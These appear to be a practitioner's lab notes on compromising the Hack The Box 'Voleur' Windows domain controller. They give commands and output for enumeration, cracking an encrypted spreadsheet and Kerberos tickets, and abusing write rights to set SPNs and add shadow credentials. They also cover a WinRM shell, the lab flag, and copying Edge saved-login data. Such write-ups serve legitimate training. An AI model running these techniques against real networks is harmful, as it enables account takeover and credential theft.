




=
tags: #windows #active-directory #ad #dpapi #kerberos

==

* scenario
  As is common in real life Windows pentests, you will start the Voleur box with credentials
  for the following account:
  #+begin_src 
  ryan.naylor / HollowOct31Nyt
  #+end_src
* nmap
  #+begin_src bat
  $ sudo nmap -sV -sC -oA nmap/voleur.basic 10.129.232.130

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-26 20:06:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2222/tcp open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_  256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel
  #+end_src
** full scan
   comes up with nothing important it looks like
   #+begin_src bat
   sudo nmap  -p- -A -T4 -oA nmap/voleur.full 10.129.232.130

9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
57359/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
57360/tcp open  msrpc         Microsoft Windows RPC
57372/tcp open  msrpc         Microsoft Windows RPC
57377/tcp open  msrpc         Microsoft Windows RPC
57396/tcp open  msrpc         Microsoft Windows RPC 
   #+end_src
* enumerate shares
  #+begin_src bat
  netexec smb 10.129.232.130 -u ryan.naylor -p HollowOct31Nyt --shares

SMB         10.129.232.130  445    10.129.232.130   [*]  x64 (name:10.129.232.130) (domain:10.129.232.130) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.129.232.130  445    10.129.232.130   [-] 10.129.232.130\ryan.naylor:HollowOct31Nyt STATUS_NOT_SUPPORTED 
  #+end_src
  this seemingly indicate password based login does not work and it requires kerberos; try =-k=:
  #+begin_src bat
  $ netexec smb 10.129.232.130 -u ryan.naylor -p 'HollowOct31Nyt' --shares -k

SMB         10.129.232.130  445    10.129.232.130   [*]  x64 (name:10.129.232.130) (domain:10.129.232.130) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.129.232.130  445    10.129.232.130   [-] 10.129.232.130\ryan.naylor:HollowOct31Nyt KDC_ERR_WRONG_REALM
  #+end_src
  the suggestion is to use the domain name instead of ip:
  #+begin_src bat
  $ netexec smb voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' --shares -k

SMB         voleur.htb      445    voleur           [*]  x64 (name:voleur) (domain:htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         voleur.htb      445    voleur           [-] htb\ryan.naylor:HollowOct31Nyt [Errno Connection error (HTB:88)] [Errno -2] Name or service not known
  #+end_src
** smbmap
   #+begin_src 
   $ smbmap -H 10.129.232.130 -u ryan.naylor -p 'HollowOct31Nyt'

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)
[*] Closed 1 connections  
   #+end_src
** winrm
  #+begin_src bat
  evil-winrm -i 10.129.232.130 -u ryan.naylor -p 'HollowOct31Nyt'

Error: An error of type ArgumentError happened, message is unknown type: 2061232681
  #+end_src
** guided mode
   #+begin_src 
  What is the fully qualified domain name (FQDN) for the host in use by Voleur
   #+end_src
   we can guess it's =dc.voleur.htb= given that this is likely to be a Domain Controller because
   it runs LDAP. but also, we can get the name rigorously like so:
*** get hostname of the machine
   #+begin_src bat
   $ ldapsearch -x -H ldap://10.129.232.130 -s base namingContexts dnsHostName

# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingContexts dnsHostName 
#

#
dn:
dnsHostName: DC.voleur.htb
namingContexts: DC=voleur,DC=htb
namingContexts: CN=Configuration,DC=voleur,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=voleur,DC=htb
namingContexts: DC=DomainDnsZones,DC=voleur,DC=htb
namingContexts: DC=ForestDnsZones,DC=voleur,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
   #+end_src
** OFFICIAL SOLUTION
   ok, got tired of chatgpt bs and took a look at the solution; 
*** generate the kerberos config via nxc
    #+begin_src bat
    $ netexec smb DC.voleur.htb  -u 'ryan.naylor' -p 'HollowOct31Nyt' -d voleur.htb -k --generate-krb5-file voleur.krb5
    #+end_src
    this generates the file =voleur.krb5= with the following contents
    #+begin_src bat
    $ cat voleur.krb5 

[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = VOLEUR.HTB

[realms]
    VOLEUR.HTB = {
        kdc = dc.voleur.htb
        admin_server = dc.voleur.htb
        default_domain = voleur.htb
    }

[domain_realm]
    .voleur.htb = VOLEUR.HTB
    voleur.htb = VOLEUR.HTB
    #+end_src
    add this to =/etc/krb5.conf=
*** enumerate shares via kerberos
    #+begin_src bat
    $ nxc smb DC.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --shares

SMB         DC.voleur.htb   445    DC   [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) 
SMB         DC.voleur.htb   445    DC   [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         DC.voleur.htb   445    DC   [*] Enumerated shares
SMB         DC.voleur.htb   445    DC   Share           Permissions     Remark
SMB         DC.voleur.htb   445    DC   -----           -----------     ------
SMB         DC.voleur.htb   445    DC   ADMIN$                          Remote Admin
SMB         DC.voleur.htb   445    DC   C$                              Default share
SMB         DC.voleur.htb   445    DC   Finance                         
SMB         DC.voleur.htb   445    DC   HR                              
SMB         DC.voleur.htb   445    DC   IPC$            READ            Remote IPC
SMB         DC.voleur.htb   445    DC   IT              READ            
SMB         DC.voleur.htb   445    DC   NETLOGON        READ            Logon server share 
SMB         DC.voleur.htb   445    DC   SYSVOL          READ            Logon server share 
    #+end_src
* read IT share
  #+begin_src 
  nxc smb DC.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k -M spider_plus --share 'IT' READ_ONLY=false
  #+end_src
  this lists an interesting excel file; let's get it using smbclient
** get excel file
   #+begin_src 
   $ smbclient -U ryan.naylor --password 'HollowOct31Nyt' -k //dc.voleur.htb/IT
   #+end_src
   #+begin_src bat
   smb: \> ls
   .                                   D        0  Wed Jan 29 10:10:01 2025 
   ..                                DHS        0  Thu Jul 24 22:09:59 2025
   First-Line Support                  D        0  Wed Jan 29 10:40:17 2025         

   smb: \> cd First-Line Support\
   cd \First-Line\: NT_STATUS_OBJECT_NAME_NOT_FOUND          
   smb: \> cd 'First-Line Support\'
   cd \'First-Line\: NT_STATUS_OBJECT_NAME_NOT_FOUND
   smb: \> dir "First-Line Support\"
   .                                   D        0  Wed Jan 29 10:40:17 2025
   ..                                  D        0  Wed Jan 29 10:10:01 2025
   Access_Review.xlsx                  A    16896  Thu Jan 30 15:14:25 2025

   smb: \> cd "First-Line Support\"
   smb: \First-Line Support\> dir                             
   .                                   D        0  Wed Jan 29 10:40:17 2025
   ..                                  D        0  Wed Jan 29 10:10:01 2025
   Access_Review.xlsx                  A    16896  Thu Jan 30 15:14:25 2025
   
   smb: \First-Line Support\> get Access_Review.xlsx
   #+end_src
   let's look at what type of file this is:
   #+begin_src bat
   $ file Access_Review.xlsx                                         

Access_Review.xlsx: CDFV2 Encrypted
   #+end_src
** crack with johntheripper
   #+begin_src bat
   $ office2john Access_Review.xlsx > access_review.hash
   $ john --wordlist=/usr/share/wordlists/rockyou.txt access_review.hash

football1        (Access_Review.xlsx)
   #+end_src
** decrypt with msoff-cryptotool
   install the tool in the general env:
   #+begin_src 
   $ pip install msoffcrypto-tool
   #+end_src
   decrypt;
   #+begin_src 
   $ msoffcrypto-tool Access_Review.xlsx decrypted.xlsx -p 'football1'
   #+end_src
** decrypted excel contents
   | User          | Job Title          | Permissions   | Notes                        |
   |---------------+--------------------+---------------+------------------------------|
   | Ryan.Naylor   | First-Line         | SMB           | Has Kerberos Pre-Auth        |
   |               | Support Technician |               | disabled temporarily to test |
   |               |                    |               | legacy systems.              |
   |---------------+--------------------+---------------+------------------------------|
   | Marie.Bryant  | First-Line         | SMB           |                              |
   |               | Support Technician |               |                              |
   |---------------+--------------------+---------------+------------------------------|
   | Lacey.Miller  | Second-Line        | Remote Users  |                              |
   |               | Support Technician |               |                              |
   |---------------+--------------------+---------------+------------------------------|
   | +Todd.Wolfe+    | Second-Line        | Remote Users  | Leaver. Password was reset   |
   |               | Support Technician |               | to NightT1meP1dg3on14        |
   |               |                    |               | and account deleted.         |
   |---------------+--------------------+---------------+------------------------------|
   | Jeremy.Combs  | Third-Line         | Remote Users  | Has access to                |
   |               | Support Technician |               | Software folder.             |
   |---------------+--------------------+---------------+------------------------------|
   | Administrator | Administrator      | Domain Admin  | Not to be used               |
   |               |                    |               | for daily tasks!             |
   Service Accounts			
   | svc_backup | Windows Backup     | Speak to Jeremy!                              |
   | svc_ldap   | LDAP Services      | P/W - M1XyC9pW7qT5Vn                          |
   | svc_iis    | IIS Administration | P/W - N5pXyW1VqM7CZ8                          |
   | svc_winrm  | Remote Management  | Need to ask Lacey as she reset this recently. |
** evil-winrm
   let's see if the Todd.Wolfe account is actually deleted:
   #+begin_src bat
   evil-winrm -i 10.129.232.130 -u todd.wolfe -p 'NightT1meP1dg3on14'
   #+end_src
   this errors out; so let's enumerate the users via nxc
   #+begin_src bat
   $ nxc smb DC.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --users

SMB     [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB     [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB     -Username-                    -BadPW- -Description-
SMB     Administrator                 0       Built-in account
SMB     Guest                         0       Built-in account
SMB     krbtgt                        0       Key Distribution Center 
SMB     ryan.naylor                   0       First-Line Support 
SMB     marie.bryant                  0       First-Line Support 
SMB     lacey.miller                  0       Second-Line Support 
SMB     svc_ldap                      0        
SMB     svc_backup                    0        
SMB     svc_iis                       0        
SMB     jeremy.combs                  0       Third-Line Support 
SMB     svc_winrm                     0        
SMB     [*] Enumerated 11 local users: VOLEUR
   #+end_src
   so it looks like =todd.wolfe= has indeed been deleted; but let's check if some other person
   is still using the default password
   #+begin_src bat
   evil-winrm -i 10.129.232.130 -u lacey.miller -p 'NightT1meP1dg3on14'
   evil-winrm -i 10.129.232.130 -u jeremy.combs -p 'NightT1meP1dg3on14'
   evil-winrm -i 10.129.232.130 -u svc_winrm -p 'NightT1meP1dg3on14'
    #+end_src  
   try smb with =marie.bryant=
   #+begin_src bat
   nxc smb DC.voleur.htb -u marie.bryant -p 'NightT1meP1dg3on14' -k --shares
   #+end_src
   none of these work.
** kerberoasting
   let's try kerberoasting 
   #+begin_src bat
   impacket-GetUserSPNs -dc-ip 10.129.232.130 VOLEUR.HTB/svc_iis

[*] Getting machine hostname
[-] The SMB request is not supported. Probably NTLM is disabled. Try to specify corresponding NetBIOS name or FQDN as the value of the -dc-host option
   #+end_src
   we need to use kerberos and also provide the domain name; let's request the TGT
   #+begin_src bash
   $ kinit svc_iis@VOLEUR.HTB
   Password for svc_iis@VOLEUR.HTB:                           
							   
   $ klist
   Ticket cache: FILE:/tmp/krb5cc_1000
   Default principal: svc_iis@VOLEUR.HTB

   Valid starting       Expires              Service principal 
   01/28/2026 18:59:18  01/29/2026 04:59:18  krbtgt/VOLEUR.HTB@VOLEUR.HTB
   renew until 01/29/2026 18:59:03

   $ impacket-GetUserSPNs -dc-host dc.voleur.htb VOLEUR.HTB/svc_iis -k
   [-] CCache file is not found. Skipping...
   No entries found!

   $ export KRB5CCNAME=/tmp/krb5cc_1000

   $ impacket-GetUserSPNs -dc-host dc.voleur.htb VOLEUR.HTB/svc_iis -k

   No entries found!
   #+end_src
   ok, now let's try with the other service user
   #+begin_src bat
   kinit svc_ldap@VOLEUR.HTB
   #+end_src
   it's saved in the same file as earlier, so let's run:
   #+begin_src 
   impacket-GetUserSPNs -dc-host dc.voleur.htb VOLEUR.HTB/svc_ldap -k

No entries found!
   #+end_src
*** try with svc_winrm
    #+begin_src 
    kinit svc_winrm@VOLEUR.HTB # NightT1meP1dg3on14

kinit: Password incorrect while getting initial credentials
    #+end_src
* bloodhound
  #+begin_src bat
  rusthound-ce -u ryan.naylor -p 'HollowOct31Nyt' -d 'voleur.htb' -c All --zip
  #+end_src
  let's also do bloodhound-python just in case:
  #+begin_src bat
  bloodhound-python -u ryan.naylor -p 'HollowOct31Nyt' -d 'voleur.htb' -c All --zip

INFO: Getting TGT for user
ERROR: Could not find a domain controller. Consider specifying a domain and/or DNS server.
  #+end_src
  this fixes the error:
  #+begin_src bat
  $ bloodhound-python -u ryan.naylor -p 'HollowOct31Nyt' -d 'voleur.htb' -dc 'dc.voleur.htb' -ns 10.129.232.130 -c All --zip
  #+end_src
  ok it turns out =svc_ldap= has =GenericWrite= over =Lacey.Miller=
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-01-28_15-24.png @ 2026-01-28 15:25:47

* shadow credentials
  let's add shadow creds for =Lacey.Miller=:
  #+begin_src bat
  certipy-ad shadow auto -dc-ip 10.129.232.130 -dc-host dc.voleur.htb -username svc_ldap@voleur.htb -password 'M1XyC9pW7qT5Vn' -account lacey.miller                    
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[-] Got error: socket ssl wrapping error: [Errno 104] Connection reset by peer
  #+end_src
  fix by explitcitly stating
  #+begin_src bat
  $ certipy-ad shadow auto -dc-ip 10.129.232.130 -dc-host dc.voleur.htb -username svc_ldap@voleur.htb -password 'M1XyC9pW7qT5Vn' -account lacey.miller -ldap-scheme ldap

[-] NTLM negotiate failed: {'result': 49, 'description': 'invalidCredentials', 'dn': '', 'message': '80090302: LdapErr: DSID-0C090930, comment: AcceptSecurityContext error, data 1, v4f7c\x00', 'referrals': None, 'saslCreds': None, 'type': 'bindResponse'}
[-] Got error: Kerberos authentication failed: {'result': 49, 'description': 'invalidCredentials', 'dn': '', 'message': '80090302: LdapErr: DSID-0C090930, comment: AcceptSecurityContext error, data 1, v4f7c\x00', 'referrals': None, 'saslCreds': None, 'type': 'bindResponse'}
[-] Use -debug to print a stacktrace
  #+end_src
  that didn't work, let's see if it's actually a credential issue
* force change password
  #+begin_src 
  bloodyAD --host dc.voleur.htb -d voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' set password lacey.miller 'NewStrongP@ssw0rd!' 

msldap.commons.exceptions.LDAPBindException: LDAP Bind failed! Result code: "invalidCredentials" Reason: "b'80090302: LdapErr: DSID-0C090770, comment: AcceptSecurityContext error, data 1, v4f7c\x00'"
  #+end_src
  ok, it's not actually a credential issue, it requires kerberos; also, we know the creds are
  fine since we were able to get the TGT with it;
  #+begin_src bat
  bloodyAD --host dc.voleur.htb -d voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k set password lacey.miller 'NewStrongP@ssw0rd!'

msldap.commons.exceptions.LDAPModifyException: Password can't be changed. It may be because the oldpass provided is not valid.
  #+end_src
* retry shadow creds with kerberos auth
  #+begin_src bat
  $ certipy-ad shadow auto -dc-ip 10.129.232.130 -dc-host dc.voleur.htb -username svc_ldap@voleur.htb -password 'M1XyC9pW7qT5Vn' -k -account lacey.miller  -ldap-scheme ldap

[!] Target name (-target) not specified and Kerberos authentication is used. This might fail
[*] Targeting user 'lacey.miller'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'eff2af1e8fa54c9c9c4765ee83e06d2d'
[*] Adding Key Credential with device ID 'eff2af1e8fa54c9c9c4765ee83e06d2d' to the Key Credentials for 'lacey.miller'
[*] Successfully added Key Credential with device ID 'eff2af1e8fa54c9c9c4765ee83e06d2d' to the Key Credentials for 'lacey.miller'
[*] Authenticating as 'lacey.miller' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'lacey.miller@voleur.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
[*] Restoring the old Key Credentials for 'lacey.miller'
[*] Successfully restored the old Key Credentials for 'lacey.miller'
[*] NT hash for 'lacey.miller': None
  #+end_src
* write SPN
  #+begin_src bat
  $ bloodyAD --host dc.voleur.htb -d voleur.htb  -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k set object lacey.miller servicePrincipalName -v 'http/lacey'

[+] lacey.miller's servicePrincipalName has been updated
  #+end_src
* request tgs
 #+begin_src bat
 $ impacket-GetUserSPNs -dc-host dc.voleur.htb VOLEUR.HTB/svc_ldap -k -request

ServicePrincipalName  Name          MemberOf  PasswordLastSet  LastLogon  Delegation
http/lacey            lacey.miller  CN=Second-Line Technicians,DC=voleur,DC=htb  2025-01-29 10:20:10.758901  <never>
                                                           
$krb5tgs$23$*lacey.miller$VOLEUR.<SNIP>
 #+end_src
 could have used =-outputfile= to output it neatly to a file; anyway, copy and try to crack it
* hashcat
  #+begin_src bat
  hashcat -m 13100 lacey.miller.tgs /usr/share/wordlists/rockyou.txt
  #+end_src
  cracking is unsuccessful.
* WriteSPN over svc_winrm
  this is the more straightforward approach; =svc_winrm= is a member of =Remote Management Users=
  #+begin_src 
  $ bloodyAD --host dc.voleur.htb -d voleur.htb  -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k set object svc_winrm servicePrincipalName -v 'http/svc_winrm'

[+] svc_winrm's servicePrincipalName has been updated
  #+end_src
** request TGS
   #+begin_src bat
   impacket-GetUserSPNs -dc-host dc.voleur.htb VOLEUR.HTB/svc_ldap -k -request-user svc_winrm -outputfile svc_winrm.tgs
   #+end_src
** hashcat
   #+begin_src bat
   $ hashcat -m 13100 svc_winrm.tgs /usr/share/wordlists/rockyou.txt

AFireInsidedeOzarctica980219afi
   #+end_src
   voila! so we have svc_winrm's creds
** svc_wirm creds
   #+begin_src 
   svc_winrm : AFireInsidedeOzarctica980219afi
   #+end_src
* evil-winrm
  #+begin_src 
  evil-winrm -i 10.129.232.130 -u svc_winrm -p 'AFireInsidedeOzarctica980219afi'

Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Unspecified GSS failure.  Minor code may provide more information. Server not found in Kerberos database
Error: Exiting with code 1
  #+end_src
  fix with:
  #+begin_src bat
  $ evil-winrm -i dc.voleur.htb -r voleur.htb -u svc_winrm -p 'AFireInsidedeOzarctica980219afi' 

Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Invalid token was supplied
Error: Exiting with code 1
  #+end_src
* nxc
  #+begin_src 
  $ nxc winrm dc.voleur.htb -u svc_winrm -p 'AFireInsidedeOzarctica980219afi' 

ERROR    Exception while calling proto_flow() on target dc.voleur.htb: ("Unpacked data doesn't match constant value 'b')\\xea\\xdbz\\xba,'' should be ''NTLMSSP\\x00''", 'When unpacking field \' |   
  #+end_src
* impacket-wmiexec
  #+begin_src bat
  $ impacket-wmiexec -k -no-pass voleur.htb/svc_winrm@dc.voleur.htb

[*] SMBv3.0 dialect used
[-] rpc_s_access_denied       
  #+end_src
* retry winrm
  #+begin_src bat
  evil-winrm -i dc.voleur.htb -r voleur.htb -u svc_winrm -p 'AFireInsidedeOzarctica980219afi'

Warning: User is not needed for Kerberos auth. Ticket will be used
Warning: Password is not needed for Kerberos auth. Ticket will be used
  
,*Evil-WinRM* PS C:\Users\svc_winrm\Documents> 
   #+end_src                                               
  wow it worked this time, it probably needed =kinit= to be run again to get the tgt for
  =svc_winrm= (which was done in the intervening time).
  ok, but what now? this user has no special permissions from what we can see; let's rerun
  bloodhound collectors with this user
  NOTE: looking at the warnings, we can run the command like below and it works:
  #+begin_src bat
  $ evil-winrm -i dc.voleur.htb -r voleur.htb
  #+end_src
* bloodhound collectors
** rusthound
   #+begin_src bat
   rusthound-ce -u svc_winrm -p 'AFireInsidedeOzarctica980219afi' -d 'voleur.htb' -c All --zip
   #+end_src
** bloodhound-python
   #+begin_src bat
   bloodhound-python -u svc_winrm -p 'AFireInsidedeOzarctica980219afi' -d 'voleur.htb' -dc 'dc.voleur.htb' -ns 10.129.232.130 -c All --zip
   #+end_src
* user flag
  it turns out the user flag is available on the desktop
  #+begin_src bat
  ,*Evil-WinRM* PS C:\Users\svc_winrm> dir Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/29/2025   7:07 AM           2312 Microsoft Edge.lnk
-ar---         1/29/2026   8:33 PM             34 user.txt

,*Evil-WinRM* PS C:\Users\svc_winrm> cd Desktop
,*Evil-WinRM* PS C:\Users\svc_winrm\Desktop> type user.txt

331185c6ba84eae57426ce89049349f6
  #+end_src
* privilege escalation
  #+begin_src bat
  ,*Evil-WinRM* PS C:\Users> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
  #+end_src
  returns nothing
* winpeas
  it finds nothing very interesting apart from an autologon present for the =svc_backup= user;
  from [[file:d:/code/htb/academy/modules/windows-privilege-escalation/further-credential-threat.org::*Enumerating Autologon with reg.exe][here]], tried the reg query to check if the password can be found
  #+begin_src bat
  C:\htb>reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
  #+end_src
  however, it's not the case.
* lazagne
  ran into some issue using wget to download the binary; instead just use evil-winrm's =upload=;
  it's slow, but works; however, nothing is discovered during the run.
* todd.wolfe
  his directory is still visible under =C:\Users=; however, the user has been deleted as can
  be confirmed like so:
  #+begin_src bat
  net user todd.wolfe

net.exe : The user name could not be found.
  #+end_src
  also, we can get all the users:
  #+begin_src bat
  ,*Evil-WinRM* PS C:\Users> Get-LocalUser
                                                           
Name          Enabled Description
----          ------- -----------                          
Administrator True    Built-in account for administering the computer/domain
Guest         False   Built-in account for guest access to the computer/domain
krbtgt        False   Key Distribution Center Service Account
ryan.naylor   True    First-Line Support Technician
marie.bryant  True    First-Line Support Technician        
lacey.miller  True    Second-Line Support Technician       
svc_ldap      True
svc_backup    True
svc_iis       True
jeremy.combs  True    Third-Line Support Technician
svc_winrm     True
  #+end_src
* snaffler
  #+begin_src 
  .\Snaffler.exe -s -o snaffler.log
  #+end_src
  returns nothing.
  upon running this, i noticed it logged =Read= permissions on the =IT= share; let's check if it
  has any additional permissions
* smb
  #+begin_src bat
  nxc smb DC.voleur.htb -u svc_winrm -p 'AFireInsidedeOzarctica980219afi' -k --shares

SMB   DC.voleur.htb   445    DC  [*] Enumerated shares
SMB   DC.voleur.htb   445    DC  Share           Permissions     Remark
SMB   DC.voleur.htb   445    DC  -----           -----------     ------
SMB   DC.voleur.htb   445    DC  ADMIN$                          Remote Admin
SMB   DC.voleur.htb   445    DC  C$                              Default share
SMB   DC.voleur.htb   445    DC  Finance                         
SMB   DC.voleur.htb   445    DC  HR                              
SMB   DC.voleur.htb   445    DC  IPC$            READ            Remote IPC
SMB   DC.voleur.htb   445    DC  IT              READ            
SMB   DC.voleur.htb   445    DC  NETLOGON        READ            Logon server share 
SMB   DC.voleur.htb   445    DC  SYSVOL          READ            Logon server share 
  #+end_src
  nope;
  NOTE: also, if you step up the clock, the TGT will become invalid but if you use =evil-winrm=,
  it will say the clock skew is too great.
* alternative to evil-winrm
  it's misbehaving, so let's try wmiexec
  #+begin_src bat
  impacket-wmiexec voleur.htb/svc_winrm@dc.voleur.htb -k
  #+end_src
  complains about cache file not being found so:
  #+begin_src 
  $ klist                        

Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: svc_winrm@VOLEUR.HTB
  #+end_src
  export:
  #+begin_src bat
  export KRB5CCNAME=/tmp/krb5cc_1000
  #+end_src
  try again:
  #+begin_src bat
  impacket-wmiexec voleur.htb/svc_winrm@dc.voleur.htb -k
 
[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
  #+end_src
* lnk file on the desktop
  there's a =Microsoft Edge.lnk= file on the desktop; let's examine it:
  #+begin_src bat
  $lnk = (New-Object -ComObject WScript.Shell).CreateShortcut("C:\Users\svc_winrm\Desktop\Microsoft Edge.lnk")
  $lnk | Format-List *

FullName         : C:\Users\svc_winrm\Desktop\Microsoft Edge.lnk
Arguments        :
Description      : Browse the web
Hotkey           :
IconLocation     : C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,0
RelativePath     :
TargetPath       : C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
WindowStyle      : 1
WorkingDirectory : C:\Program Files (x86)\Microsoft\Edge\Application
  #+end_src
  ok, nothing interesting.
* installed programs
  #+begin_src bat
  ,*Evil-WinRM* PS C:\Users\svc_winrm\Documents> $INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
  ,*Evil-WinRM* PS C:\Users\svc_winrm\Documents> $INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
  ,*Evil-WinRM* PS C:\Users\svc_winrm\Documents> $INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize

DisplayName                               DisplayVersion InstallLocation
-----------                               -------------- ---------------
Microsoft Edge                            138.0.3351.55  C:\Program Files (x86)\Microsoft Edge\Application

Microsoft Visual C++ 2015-2022...
...
<SNIP>
VMware Tools                              13.0.1.0       C:\Program Files\VMware\VMware Tools\
  #+end_src
* sharpchrome
  we know edge is present on the system; let's try and extract any login info.
  download and build the project; and transfer the binary to the target
  #+begin_src bat
  .\SharpChrome.exe logins /unprotect /browser:edge
  #+end_src
  well this returns nothing at all. why though? let's do some debugging
** error code
   check error code to see if it even runs or crashes
   #+begin_src bat
   echo $LASTEXITCODE

 -2146232576   
   #+end_src
* systeminfo, get-hotfix, wmic, to get missing patches
  Access denied for the first 2, error for the 3rd.
* exfil edge data
  #+begin_src bat
  $edge = "$env:LOCALAPPDATA\Microsoft\Edge\User Data\Default"

  copy "$edge\Login Data" .\LoginData.db
  copy "$env:LOCALAPPDATA\Microsoft\Edge\User Data\Local State" .\LocalState.json
  #+end_src
  =LoginData.db= is an SQLite database file. however, reading the database requires the
  =masterkey= and I can't seem to get it with =SharpDPAPI= either.
* get a shell as svc_ldap
  #+begin_src bat
